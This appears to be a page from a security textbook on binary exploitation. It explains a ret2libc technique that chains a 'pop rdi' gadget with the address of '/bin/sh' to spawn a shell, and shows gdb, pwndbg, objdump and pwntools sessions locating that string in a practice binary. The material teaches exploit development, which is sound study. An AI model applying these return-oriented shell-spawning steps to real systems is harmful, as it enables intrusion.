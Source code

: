 \documentclass{article}
\begin{document}
Luckily, the exact gadget we need is located at \texttt{0x401526}. If we include
this address in our input and follow it with the location of "/bin/sh", the
program will first \texttt{pop} the location of "/bin/sh" into \texttt{rdi},
then redirect execution to any address we follow it with. We can find the
location of "/bin/sh" with \texttt{pwndbg}, vanilla \texttt{gdb},
\texttt{objdump}, and most importantly for our purposes, \texttt{pwntools}.

\begin{lstlisting}
> gdb -q ret2libc -batch -ex "start" -ex "search /bin/sh"
Loaded 113 commands. Type pwndbg [filter] for a list.
Temporary breakpoint 1 at 0x4009e5
ret2libc        0x4a2168 0x68732f6e69622f /* '/bin/sh' */
> 
> gdb -nh -q ret2libc
Reading symbols from ret2libc...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0x4009e5
(gdb) r
Starting program: /home/devneal/Security/REFE/textbook/example_code/ret2libc 

Breakpoint 1, 0x00000000004009e5 in main ()
(gdb) info proc mappings 
process 4527
Mapped address spaces:

          Start Addr           End Addr       Size     Offset objfile
            0x400000           0x4ca000    0xca000        0x0 /home/devneal/Security/REFE/textbook/example_code/ret2libc
            0x6c9000           0x6cc000     0x3000    0xc9000 /home/devneal/Security/REFE/textbook/example_code/ret2libc
            0x6cc000           0x6f1000    0x25000        0x0 [heap]
      0x7ffff7ffb000     0x7ffff7ffd000     0x2000        0x0 [vvar]
      0x7ffff7ffd000     0x7ffff7fff000     0x2000        0x0 [vdso]
      0x7ffffffde000     0x7ffffffff000    0x21000        0x0 [stack]
  0xffffffffff600000 0xffffffffff601000     0x1000        0x0 [vsyscall]
(gdb) find 0x400000,0x4ca000,"/bin/sh"
0x4a2168
warning: Unable to access 3473 bytes of target memory at 0x4c9270, halting search.
1 pattern found.
(gdb) q
A debugging session is active.

	Inferior 1 [process 4527] will be killed.

Quit anyway? (y or n) y
> 
> objdump -s ret2libc | grep /bin/sh
 4a2160 6974666e 002d6300 2f62696e 2f736800  itfn.-c./bin/sh.
> 
> python
Python 2.7.12 (default, Nov 20 2017, 18:23:56) 
[GCC 5.4.0 20160609] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
>>> e = ELF("./ret2libc")
[*] '/home/devneal/Security/REFE/textbook/example_code/ret2libc'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
>>> hex(e.search("/bin/sh").next())
'0x4a2168'
>>> 
\end{lstlisting}
\end{document}
